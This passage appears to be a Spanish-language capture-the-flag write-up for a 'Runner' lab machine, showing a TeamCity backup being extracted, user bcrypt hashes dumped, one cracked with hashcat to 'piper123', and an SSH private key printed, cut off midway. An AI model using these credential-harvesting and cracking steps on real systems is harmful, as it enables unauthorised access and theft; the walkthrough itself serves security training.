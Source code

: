Haciendolo y luego descargándolo, podemos ver cosas interesantes al extraerlo:

```bash
❯ ls -la
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:20 2024 .
.--------- vzon vzon   6 B  Sat Aug 24 13:43:16 2024 charset
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 config
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 database_dump
.--------- vzon vzon 678 B  Sat Aug 24 13:43:16 2024 export.report
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 metadata
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 plugins
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 system
.rw-r--r-- vzon vzon 262 KB Sat Aug 24 09:43:33 2024 TeamCity_Backup_20240824_134317.zip
.--------- vzon vzon  92 B  Sat Aug 24 13:43:16 2024 version.txt
```

Algunos archivos aparecen con los bits de permiso en 0, por lo que vamos a tener que establecerlos en 755 con `chmod`. Viendo cada archivo podemos encontrar los usuarios y sus respectivos hashes:

```bash
❯ cat users
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1724493260088, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
3, uwuowo, $2a$07$pr5tdkjI7hsUyjc3SPBZ6el.lPbgND2WeL75Yqf4Nj.D2ZY0P6lKW, , uwuowo@example.com, 1724506839542, BCRYPT
```

La contraseña de matthew es débil

```bash
❯ hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
$2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em:piper123
```

Sin embargo, no nos sirve para acceder por SSH, pero lo verdaderamente curioso además de esta contraseña podemos encontrarlo en `config/projects/AllProjects/pluginData/ssh_keys`

```bash
❯ ls -la
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 .
drwxr-xr-x vzon vzon 4.0 KB Sat Aug 24 09:44:24 2024 ..
.rwxr-xr-x vzon vzon 2.5 KB Wed Feb 28 19:56:44 2024 id_rsa
```

¡Es una llave RSA!

```bash
❯ cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAlk2rRhm7T2dg2z3+Y6ioSOVszvNlA4wRS4ty8qrGMSCpnZyEISPl
htHGpTu0oGI11FTun7HzQj7Ore7YMC+SsMIlS78MGU2ogb0Tp2bOY5RN1/X9MiK/SE4liT
njhPU1FqBIexmXKlgS/jv57WUtc5CsgTUGYkpaX6cT2geiNqHLnB5QD+ZKJWBflF6P9rTt
zkEdcWYKtDp0Phcu1FUVeQJOpb13w/L0GGiya2RkZgrIwXR6l3YCX+mBRFfhRFHLmd/lgy
/R2GQpBWUDB9rUS+mtHpm4c3786g11IPZo+74I7BhOn1Iz2E5KO0tW2jefylY2MrYgOjjq
5fj0Fz3eoj4hxtZyuf0GR8Cq1AkowJyDP02XzIvVZKCMDgVNAMH5B7COTX8CjUzc0vuKV5
iLSi+vRx6vYQpQv4wlh1H4hUlgaVSimoAqizJPUqyAi9oUhHXGY71x5gCUXeULZJMcDYKB
Z2zzex3+iPBYi9tTsnCISXIvTDb32fmm1qRmIRyXAAAFgGL91WVi/dVlAAAAB3NzaC1yc2
EAAAGBAJZNq0YZu09nYNs9/mOoqEjlbM7zZQOMEUuLcvKqxjEgqZ2chCEj5YbRxqU7tKBi
NdRU7p+x80I+zq3u2DAvkrDCJUu/DBlNqIG9E6dmzmOUTdf1/TIiv0hOJYk544T1NRagSH
sZlypYEv47+e1lLXOQrIE1BmJKWl+nE9oHojahy5weUA/mSiVgX5Rej/a07c5BHXFmCrQ6
dD4XLtRVFXkCTqW9d8Py9BhosmtkZGYKyMF0epd2Al/pgURX4URRy5nf5YMv0dhkKQVlAw
fa1EvprR6ZuHN+/OoNdSD2aPu+COwYTp9SM9hOSjtLVto3n8pWNjK2IDo46uX49Bc93qI+
IcbWcrn9BkfAqtQJKMCcgz9Nl8yL1WSgjA4FTQDB+Qewjk1/Ao1M3NL7ileYi0ovr0cer2
EKUL+MJYdR+IVJYGlUopqAKosyT1KsgIvaFIR1xmO9ceYAlF3lC2STHA2CgWds83sd/ojw
```
